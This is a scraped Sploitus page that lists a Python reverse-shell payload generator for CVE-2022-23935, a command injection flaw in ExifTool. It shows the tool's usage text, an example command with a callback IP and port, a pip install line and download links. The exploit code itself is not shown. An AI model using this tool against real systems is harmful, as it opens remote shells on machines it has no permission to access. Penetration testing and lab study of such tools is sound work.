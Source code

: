 ```yaml
---
title: Exploit for Command Injection in Exiftool Project Exiftool exploit
url: https://sploitus.com/exploit?id=5D0BBD15-7B78-5C1D-BBC1-641FB11928C6&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-02-11
fetch_date: 2025-10-04T06:18:52.146880
---
```


# Exploit for Command Injection in Exiftool Project Exiftool exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for OS Command Injection in Exiftool\_Project Exiftool CVE-2022-23935

2023-02-10 | CVSS 7.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=5D0BBD15-7B78-5C1D-BBC1-641FB11928C6
# CVE-2022-23935
🐍 Python Exploit for CVE-2022-23935

Staged Reverse Shell Payload Generator for CVE-2022-23935

## Example
```
cve-2022-23935 10.10.16.3 44444
```
## Usage
```bash
usage: cve-2022-23935 [-h] [-l SERVER_PORT] [-s SHELL] ip port

positional arguments:
  ip                    IP Address/Host for Callback
  port                  Port Number for Callback

options:
  -h, --help            show this help message and exit
  -l SERVER_PORT, --listen SERVER_PORT
                        Port Number for Server Listen
  -s SHELL, --shell SHELL
                        Remote Shell

```

## Installation
```bash
python3 -m pip install cve-2022-23935-1.0.0-py3-none-any.whl
```
[Download Latest Release](https://github.com/BKreisel/CVE-2022-23935/releases/download/1.0.0/cve_2022_23935-1.0.0-py3-none-any.whl)

## Demo
[![demo](https://asciinema.org/a/558936.svg)](https://asciinema.org/a/558936?autoplay=1)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)